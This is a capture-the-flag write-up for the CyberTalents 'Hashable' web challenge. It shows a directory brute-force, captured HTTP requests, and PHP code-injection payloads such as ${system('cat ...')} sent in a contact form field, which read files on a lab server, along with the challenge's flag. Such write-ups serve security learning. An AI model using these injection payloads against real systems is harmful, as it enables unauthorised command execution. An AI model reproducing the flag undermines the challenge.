


# Solve Hashable
### https://cybertalents.com/challenges/web/hashable



### Run Directory bruteforce

```bash
dirsearch -u http://wcamxwl32pue3e6mg1y3egwsxvm6j6zqdkgxu639-web.cybertalentslabs.com/ -x 403,404
```

Output 
```bash
Target: http://wcamxwl32pue3e6mg1y3egwsxvm6j6zqdkgxu639-web.cybertalentslabs.com/

[00:11:53] Starting: 
[00:11:58] 301 -  185B  - /js  ->  http://wcamxwl32pue3e6mg1y3egwsxvm6j6zqdkgxu639-web.cybertalentslabs.com/js/
[00:12:13] 200 -    4KB - /about.php                                        
[00:12:40] 200 -    5KB - /contact.php                                      
[00:12:41] 301 -  185B  - /css  ->  http://wcamxwl32pue3e6mg1y3egwsxvm6j6zqdkgxu639-web.cybertalentslabs.com/css/
[00:12:49] 200 -    1KB - /footer.php                                       
[00:12:51] 200 -    3KB - /gulpfile.js                                      
[00:12:52] 200 -    2KB - /header.php                                       
[00:12:53] 301 -  185B  - /img  ->  http://wcamxwl32pue3e6mg1y3egwsxvm6j6zqdkgxu639-web.cybertalentslabs.com/img/
[00:13:08] 200 -    1KB - /package.json                                     
[00:13:08] 200 -  256KB - /package-lock.json  
```

### Analyze blog request with burp 
```http
GET /post.php?id=1 HTTP/1.1
Host: wcamxwl32pue3e6mg1y3egwsxvm6j6zqdkgxu639-web.cybertalentslabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://wcamxwl32pue3e6mg1y3egwsxvm6j6zqdkgxu639-web.cybertalentslabs.com/
Upgrade-Insecure-Requests: 1

```
We found that PHP parameter is not vulnerable 

### Analyze contact us request with burp 
```http
POST /contact.php HTTP/1.1
Host: wcamxwl32pue3e6mg1y3egwsxvm6j6zqdkgxu639-web.cybertalentslabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 33
Origin: http://wcamxwl32pue3e6mg1y3egwsxvm6j6zqdkgxu639-web.cybertalentslabs.com
Connection: close
Referer: http://wcamxwl32pue3e6mg1y3egwsxvm6j6zqdkgxu639-web.cybertalentslabs.com/contact.php
Upgrade-Insecure-Requests: 1

name=test&email=test&message=test
```

Try command injection in message prameter
`name=test&email=test&message=${system('pwd')}`



##### Try ls 
`name=test&email=test&message=${system('ls')}`

files 
```
about.php
contact.php
css
flag_23894ABCX1.txt
footer.php
gulpfile.js
header.php
img
index.php
js
package-lock.json
package.json
post.php
scss
vendor
```

##### Try ls 
`name=test&email=test&message=${system('cat flag_23894ABCX1.txt')}`

flag is `18ab51f960bd149bcb2497b9998c752c`

>Find More on ==> github.com/MedhatHassan 